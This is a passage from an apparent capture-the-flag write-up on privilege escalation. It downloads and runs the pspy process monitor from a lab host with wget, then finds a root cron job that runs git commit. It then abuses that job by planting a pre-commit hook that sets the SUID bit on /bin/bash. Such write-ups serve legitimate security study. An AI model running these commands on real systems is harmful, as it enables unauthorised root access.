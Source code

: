 ## 5. Privilege Escalation

### 5.1 Process Monitoring with pspy

```bash
wget http://10.10.14.10:8000/pspy64
chmod +x pspy64
./pspy64
```

![](screenshots/git_sync_pspy.png)
![](screenshots/git_scan_code.png)

A cron-executed script performs `git commit` as **root**.

### 5.2 Abusing Git Hooks

Inspecting hooks:

![](screenshots/git_hooks.png)

Create malicious pre-commit hook:

```bash
echo 'chmod u+s /bin/bash' > ~/.git/hooks/pre-commit
chmod +x ~/.git/hooks/pre-commit 
```

![](screenshots/git_hooks_add_bash.png)
